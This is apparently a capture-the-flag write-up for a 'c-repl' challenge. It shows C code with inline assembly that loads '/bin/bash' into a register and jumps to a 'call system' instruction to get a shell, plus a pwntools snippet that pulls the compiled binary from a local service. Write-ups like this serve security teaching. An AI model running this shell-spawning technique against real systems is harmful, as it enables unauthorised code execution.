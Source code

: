 # c-repl solution

Solving this problem should be an iterative process of the player writing C code, compiling it, and then throwing it into a disassembler to get the right addresses. 

There are likely many ways to solve this challenge, but I just wrote some inline assembly that loaded `"/bin/bash"` into `%rdi`, then `jmp`'ed to the `call system` instruction. 

The C code that is sent is:
```c
#define BINSH "/bin/bash" // so the data is not stored on the stack
printf("doing %s\n", BINSH); // so BINSH doesn't get optimized away
__asm__(
    "movq $0x00402016, %rdi;" // move the address of "/bin/bash" into rdi
    "movq $0x04011ea, %rax;" // prepare to jump to `call system`
    "jmp %rax;"); // do the jump
```

The offsets were found using Binary Ninja: 

![binsh offset](binsh.png)
![call system offset](call_system.png)

The player can get the compiled ELF file by reading the data from stdout using a snippet of code like:
```python
from pwn import *

p = remote("127.0.0.1",1337)
p.recvuntil("C> ")
p.sendline('printf("your code here!\\n");')
data = bytes(
    [int(x, 16) for x in p.recvline().decode().split(": [")[1].strip()[:-1].split(", ")]
)

with open("elf.bin", "wb") as fp:
    fp.write(data) # write compiled binary to elf.bin locally to inspect with binary ninja
```

The [solve.py](./solve.py) script automates the "exploitation". 